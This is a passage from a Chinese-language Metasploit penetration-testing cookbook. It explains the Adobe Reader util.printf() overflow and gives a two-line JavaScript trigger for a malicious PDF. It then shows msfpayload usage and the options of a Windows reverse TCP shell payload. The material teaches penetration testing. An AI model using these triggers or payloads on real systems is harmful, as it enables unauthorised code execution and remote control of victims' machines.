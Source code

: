 ## 它是如何工作的。。。

Adobe Reader 的易受攻击版本实现 JavaScript `util.printf()`功能的方式就发现了这个问题。函数首先将接收到的参数转换为字符串，仅使用参数的前 16 位数字，并用固定值“0”（0x30）填充其余数字。通过向函数传递过长且格式正确的命令，可以覆盖程序的内存并控制其执行流。Metasploit 模块创建一个特制的 PDF 文件，该文件嵌入 JavaScript 代码以操纵程序的内存分配模式并触发漏洞。这会允许攻击者以运行 Adobe Reader 应用程序的用户的权限执行任意代码。

考虑下面两行 JavaScript 嵌入在 PDF 中：

```
var num = 1.2
util.printf("%5000f",num) 
```

这两个简单的 JavaScript 行导致字节 0x20 在堆栈上被复制 5000 次。这允许您控制异常处理程序，并在尝试写入堆栈后面的部分时触发异常。

# 从 msfpayload 生成二进制和外壳代码

到目前为止，我们已经讨论了许多可用于使用客户端攻击穿透目标机器的技术。所有这些技术都涉及利用客户机上运行的各种应用程序软件中的漏洞。但是，当前面讨论的技术可能不起作用时，可能会出现这样的情况。这些攻击让我们任由易受攻击的应用软件摆布，我们必须利用这些软件才能获得访问权限。

Metasploit 为我们提供了另一个功能，在该功能中，我们可以执行客户端攻击，而不用担心利用目标机器上运行的应用程序软件。 `msfpayload`是解决方案。让我们快速介绍一下 `msfpayload`并继续实践我们的配方。

`msfpayload`是 Metasploit 的命令行实例，用于生成 Metasploit 存储库中可用的各种外壳代码文件类型。可用的各种文件类型选项有 C、Ruby、Raw、Exe、Dll、VBA 和 War。我们可以使用 `msfpayload`将任何 Metasploit 外壳代码转换为上述文件格式之一。然后，可以将其传输到目标以执行。一旦文件在目标机器上执行，我们将获得一个活动会话。这减少了利用目标计算机上运行的应用程序软件中存在的任何漏洞的开销。 `msfpayload`的另一个主要优点是，它可以用于生成特定编程语言（如 C、Ruby 等）中的自定义外壳代码，这些代码可以用于您自己的开发代码中。

使用 `msfpayload`的一个主要缺点是，当目标试图执行它时，使用它生成的文件很容易被防病毒程序检测到。让我们继续前进，感受 `msfpayload`可以为我们的渗透测试过程添加的力量。

## 准备好了吗

让我们开始试验 `msfpayload`。我们将从启动回溯终端开始。我们可以从命令 `msfpayload -h`开始查看其用法说明。

```
root@bt:~# msfpayload -h
Usage: /opt/framework3/msf3/msfpayload [<options>] <payload> [var=val] <[S]ummary|C|[P]erl|Rub[y]|[R]aw|[J]s|e[X]e|[D]ll|[V]BA|[W]ar> 
```

要查看可用的外壳代码列表，我们可以使用 `msfpayload -l`命令。您将发现一个巨大的可用外壳代码列表，供我们使用。

## 怎么做。。。

让我们继续看看如何用 C 语言生成特定的定制外壳代码。我们将使用 `windows/shell/reverse_tcp`有效负载以 C 语言生成其外壳代码。我们将首先选择各自的有效载荷外壳并传递各种参数值。

```
root@bt:~# msfpayload windows/shell/reverse_tcp o
Name: Windows Command Shell, Reverse TCP Stager
Module: payload/windows/shell/reverse_tcp
Version: 10394, 11421
Platform: Windows
Arch: x86
Needs Admin: No
Total size: 290
Rank: Normal
Basic options:
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: seh..
LHOST yes The listen address
LPORT 4444 yes The listen port 
```
